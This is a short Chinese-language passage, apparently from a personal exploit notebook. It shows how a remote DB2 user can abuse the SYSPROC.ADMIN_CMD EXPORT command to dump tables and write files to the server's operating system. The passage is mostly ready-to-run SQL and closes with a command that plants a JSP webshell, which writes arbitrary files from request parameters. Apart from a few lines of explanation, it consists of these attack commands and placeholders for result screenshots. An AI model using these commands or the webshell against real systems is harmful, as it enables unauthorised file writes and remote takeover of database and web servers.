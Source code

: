 ```

#!sql

CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT * FROM VOTENAME');

```

调用过程和结果：

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409562476974392.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409562771133402.png)

远程连接数据库的用户可以先创建一个表（或对 EXPORT 命令涉及的表具有 SELECT 权限），然后调用 ADMIN_CMD 存储过程执行 EXPORT 命令向操作系统写文件

向操作系统写入包含某些字符串的文件语法如下：

```

#!sql

CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.TXT OF DEL MODIFIED BY NOCHARDEL SELECT ''My Content'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```

远程调用结果：

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409563116238419.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409563596262423.png)

利用该方法写 webshell 语法：

```

#!sql

CALL SYSPROC.ADMIN_CMD ('EXPORT TO C:\RESULT.jsp OF DEL MODIFIED BY NOCHARDEL SELECT ''<%if(request.getParameter("f")!=null){(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("c").getBytes());response.getWriter().print("[OK]");}%>'' FROM VOTENAME FETCH FIRST 1 ROWS ONLY');

```

远程调用结果：

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409564030535433.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409564594816442.png)

![](/Users/seven/Desktop/pocs/database/db2/db2.assets/2016061409564976283452.png)
